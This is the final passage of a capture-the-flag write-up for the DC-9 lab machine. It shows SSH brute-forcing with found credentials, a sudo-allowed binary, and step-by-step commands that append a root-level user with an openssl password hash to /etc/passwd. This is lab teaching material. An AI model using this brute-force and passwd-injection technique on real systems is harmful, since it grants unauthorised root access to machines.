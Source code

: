 The first thing we do is enumeration: we log with every account and search for everything useful. The fist thing I've done is to enumerate the files in the exact home directory. the thing that catched my interesting was a file called "passwords-found-on-post-it-notes.txt" in the ".secrets-for-putin" directory on the janitor account, we can retry hydra's bruteforcing but with these credentials. Thanks to this notes we now have a new account to enumerate:

```
...
[22][ssh] host: 192.168.40.135   login: fredf   password: B4-Tru3-001
...
```

The user "fredf" can impersonate root to run this file:

```
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

Time to get more information about it.

### File information

The file is an elf executable:

```
fredf@dc-9:~$ file /opt/devstuff/dist/test/test
/opt/devstuff/dist/test/test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=28ba79c778f7402713aec6af319ee0fbaf3a8014, stripped
```

This binary simply takes a file and append the content in another file:

<figure><img src="../.gitbook/assets/testPrivesc.png" alt=""><figcaption></figcaption></figure>

So the privesc is straight forward: we can just append our personalized root user to "/etc/passwd" or "/etc/shadow".

1. copy the root line from "/etc/passwd" and change the name: `newroot:x:0:0:root:/root:/bin/bash`
2. generate a new password with openssl: `openssl passwd password321` `$1$8S09HGZM$h1YN5vVHXZyBLZnahTHXr0`
3. replace the "x" with the hash: `newroot:$1$8S09HGZM$h1YN5vVHXZyBLZnahTHXr0:0:0:root:/root:/bin/bash`
4. put our new string in a file and run the binary on "/etc/passwd": `fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test hash /etc/passwd`

We've done it! Now we just need to "su" to our new user and we got root privilege! `uid=0(root) gid=0(root) groups=0(root)`

## That's was a really cool box and thanks for the reading.

## Hope to see you soon!

_Pedio Zaki_
